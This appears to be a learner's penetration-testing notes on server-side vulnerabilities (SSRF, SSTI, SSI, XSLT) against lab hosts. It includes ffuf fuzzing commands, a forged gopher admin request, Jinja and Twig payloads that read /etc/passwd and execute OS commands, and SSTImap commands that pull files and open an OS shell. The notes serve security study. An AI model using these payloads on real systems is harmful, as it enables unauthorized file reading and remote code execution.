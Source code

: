 Classes of Server-side Vulnerabilities : 
- Server-Side Request Forgery (SSRF) - Server-Side Request Forgery (SSRF) is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vulnerability often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.

- Server-Side Template Injection (SSTI) - Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a Server-Side Template Injection vulnerability can occur. SSTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.

- Server-Side Includes (SSI) Injection - Similar to server-side templates, server-side includes (SSI) can be used to generate HTML responses dynamically. SSI directives instruct the webserver to include additional content dynamically. These directives are embedded into HTML files. For instance, SSI can be used to include content that is present in all HTML pages, such as headers or footers. When an attacker can inject commands into the SSI directives, Server-Side Includes (SSI) Injection can occur. SSI injection can lead to data leakage or even remote code execution.

- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection - XSLT (Extensible Stylesheet Language Transformations) server-side injection is a vulnerability that arises when an attacker can manipulate XSLT transformations performed on the server. XSLT is a language used to transform XML documents into other formats, such as HTML, and is commonly employed in web applications to generate content dynamically. In the context of XSLT server-side injection, attackers exploit weaknesses in how XSLT transformations are handled, allowing them to inject and execute arbitrary code on the server.

URL Schemes for exploitation of SSRF : 
- `http://` and `https://`: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network
- `file://`: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI)
- `gopher://`: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases


Command to exploit SSRF :
- `ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"`
- `ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -t 1000`

## Exploiting SSRF
**Accessing Restricted Endpoints** : `ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -t 1000`

**Local File Inclusion (LFI)** : `file:///etc/passwd`

**gopher Protocol :**  If we don't have any way to send a POST Request with Login Credentials to the server, we can use this protocol to send the request : 
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

We can use this tool to generate the Gopher URLs : `https://github.com/tarunkant/Gopherus`

## Blind SSRF
If we don't get actual response from the server on exploitation but we receive a registered error. 

To check for Blind SSRF, just simply start the listener and enter the IP address to the Request and check for error messages, if you see it handling different message differently to gather info regarding the open PORTS.

Check for Open Ports using this command : `ffuf -w ./ports.txt -u http://<given_ip>/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://<localhost_ip>:FUZZ/date=2024-01-01" -fr "Something went wrong"`

## Template Engines
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses. An everyday use case for template engines is a website with shared headers and footers for all pages. A template can dynamically add content but keep the header and footer the same. This avoids duplicate instances of header and footer in different places, reducing complexity and thus enabling better code maintainability. Popular examples of template engines are [Jinja](https://jinja.palletsprojects.com/en/3.1.x/) and [Twig](https://twig.symfony.com/).

## SSTI - Server Side Template Injection 
the following test string is commonly used to provoke an error message in a web application vulnerable to SSTI, as it consists of all special characters that have a particular semantic purpose in popular template engines:

`${{<%[%'"}}%\.`

![[Pasted image 20250422180816.png]]
Check using this Diagram given, if it works then follow Green Arrow else follow Red Arrow.

## Information Disclosure using SSTI
To obtain the web application's configuration using SSTI : `{{ config.items() }}`

To dump all built-in functions : `{{ self.__init__.__globals__.__builtins__ }}`

To open a file : `{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}`

For remote code execution we can use : `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` | In this command, it first imports the OS library and then runs the command 'id'.

To get information regarding the current template : `{{ _self }}`

he PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files : `{{ "/etc/passwd"|file_excerpt(1,-1) }}`

For Remote Code Execution (RCE) : `{{ ['id'] | filter('system') }}`

## Tools of the Trade 
**Installation Guide :**

```shell-session
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```

Command to run the tool : `python3 sstimap.py -u http://172.17.0.2/index.php?name=test`

 This command will download the file `/etc/passwd` to the local file system : `python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'`

This command executes the command we specify after `-s` flag : `python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id`

This command provides us with a Shell : `python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell`


## Server-Side Includes (SSI) Injection
Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as [Apache](https://httpd.apache.org/docs/current/howto/ssi.html) and [IIS](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/serversideinclude). The use of SSI can often be inferred from the file extension. Typical file extensions include `.shtml`, `.shtm`, and `.stm`. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.


